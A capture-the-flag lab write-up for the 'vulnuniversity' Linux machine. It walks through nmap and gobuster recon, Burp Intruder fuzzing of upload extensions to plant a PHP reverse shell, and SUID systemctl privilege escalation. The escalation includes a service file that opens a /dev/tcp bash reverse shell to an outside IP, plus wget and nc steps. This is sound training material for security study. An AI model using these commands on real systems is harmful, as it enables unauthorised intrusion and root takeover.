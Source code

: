 ```yaml
---
description: '-linux -web -php shell vuln'
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# vulnuniversity-LINUX

\---------------------------------------------------------------------------------------------------------------------

## Used Nmap For Recon

```bash
sudo nmap -v -sV -A -p- -v <ip> 
```

\---------------------------------------------------------------------------------------------------------------------

for brute forcing urls use gobuster&#x20;

```
gobuster dir -u http://10.10.43.195:3333 -w <word list location>
```

then found /internal/ directory

opened it \<IP>:\<port>/internal/

then found an upload thingy

used burp suite to analyze request and found that it uses php

Then downloaded the given php reverse shell\
tried uploading it and used burp suite in this way

action to intruder clicked ADD § around the position file type&#x20;

```
Content-Disposition: form-data; name="file"; filename="shell.§php§"
```

then choose sniper as my attack type then went to payloads then use simple text as your payload type

then added php  then php ,php3 ,php4 ,php5 ,phtml into payload settings simple text(Add seperaretly )

Then start attack and check for which extension it returns success

\---------------------------------------------------------------------------------------------------------------------

Them search for [http://10.10.43.195:3333/internal/uploads/](http://10.10.43.195:3333/internal/uploads/) and run the shell u have uploaded with the extension accepted

then listen on ur kali using defined port in ur reverse shell script

to list all users use cat /etc/passwd then for the txt search cat /home/\<theusername> then ls and cat if txt file is there

\---------------------------------------------------------------------------------------------------------------------

PRIV ESCALATION

lets find some SUID files&#x20;

((In Linux, SUID (set owner userId upon execution) is a particular type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).))

```
find / -user root -perm -4000 -print 2>/dev/null
```

we see /bin/systemctl has SUID so we can use systemcontrol to start our own service

Search gtfo bins then use SUID filter then ctrl+f to search systemctl then we see

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF

------------Change it to------------------------------------------
TF=$(mktemp).service       #NO SPACES HERE
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
------------------------------------------------------------------
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>suid priv esc script</p></figcaption></figure>

we can run this in the victim machine one by one line then at the end check /tmp for a output file then just cat the output file

\---------------------OOOOOOOOOOTHER METHOD---------------------FOR PRIV ESC------------------

In ur kali create a file root.service then add this code to it and save it

```
[Unit]
Description=root

[Service]
Type=Simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.112.0/4444 0>&1'

[Install]
WantedBy=multi-user.target

```

then transfer it using a python server&#x20;

From the host

```
sudo python3 -m http.server 80 
```

Then ON VICTIM in tmp folder

```
wget http:/<IP./root.service
```

```
nc -nlvp 4444       //////in my kali
```

then enable the service

```
systemctl enable /tmp/root.service
systemctl start root
```

Then u get reverse shell to your kali and just move to root directory and cat the txt file
